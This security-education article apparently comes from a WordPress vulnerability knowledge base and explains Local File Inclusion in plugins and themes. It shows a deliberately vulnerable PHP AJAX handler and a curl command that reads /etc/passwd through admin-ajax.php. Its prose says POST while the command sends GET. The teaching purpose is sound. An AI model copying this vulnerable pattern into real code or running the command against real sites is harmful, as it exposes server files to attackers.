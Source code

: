 ```yaml
---
title: Local File Inclusion (LFI)
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible LFI on WordPress. This includes improper file inclusion inside of the plugin/theme which can be used to gain RCE on the server.

<LinkCard
  title="Learn how to secure your code against Local File Inclusion"
  href="/wordpress/securing-code/local-file-inclusion/"
/>

## Useful Functions

Several functions could be useful to identify a possible LFI vulnerability:

- [`include`](https://www.php.net/manual/en/function.include.php)
- [`include_once`](https://www.php.net/manual/en/function.include-once.php)
- [`require`](https://www.php.net/manual/en/function.require.php)
- [`require_once`](https://www.php.net/manual/en/function.require-once.php)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_render_lesson", "render_lesson_template");

function render_lesson_template(){
    $template_path      = urldecode( $_GET['template_path'] ?? '' );

    // For custom template return all list of lessons
    include $template_path;
    die();
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `include` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=render_lesson&template_path=/etc/passwd
```

Below are some of the findings related to Local File Inclusion:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Security Vulnerability In OceanWP Theme \<= 3.4.1](https://patchstack.com/articles/subscriber-path-traversal-leading-to-local-file-inclusion-in-oceanwp-theme/)
- [Vulnerability In Rank Math SEO Plugin](https://patchstack.com/articles/authenticated-path-traversal-leading-to-local-file-inclusion-in-rank-math-seo-plugin/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)